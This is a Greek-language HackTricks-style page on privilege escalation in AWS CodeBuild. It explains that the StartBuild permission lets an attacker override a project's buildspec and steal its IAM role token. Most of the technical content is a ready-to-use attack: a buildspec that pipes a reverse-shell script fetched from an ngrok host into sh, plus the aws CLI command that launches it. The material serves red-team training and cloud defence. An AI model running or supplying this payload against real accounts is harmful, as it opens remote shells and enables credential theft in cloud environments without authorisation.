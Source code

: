 # AWS - Codebuild Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Υποστήριξη HackTricks</summary></details>
{% endhint %}

## codebuild

Αποκτήστε περισσότερες πληροφορίες στο:

{% content-ref url="../aws-services/aws-codebuild-enum.md" %}
[aws-codebuild-enum.md](../aws-services/aws-codebuild-enum.md)
{% endcontent-ref %}

### `codebuild:StartBuild` | `codebuild:StartBuildBatch`

Μόνο με μία από αυτές τις άδειες είναι αρκετό για να ενεργοποιήσετε μια κατασκευή με ένα νέο buildspec και να κλέψετε το token του iam ρόλου που έχει ανατεθεί στο έργο:

{% tabs %}
{% tab title="StartBuild" %}
{% code overflow="wrap" %}
```bash
cat > /tmp/buildspec.yml <<EOF
version: 0.2

phases:
build:
commands:
- curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
EOF

aws codebuild start-build --project <project-name> --buildspec-override file:///tmp/buildspec.yml
```
{% endcode %}
{% endtab %}
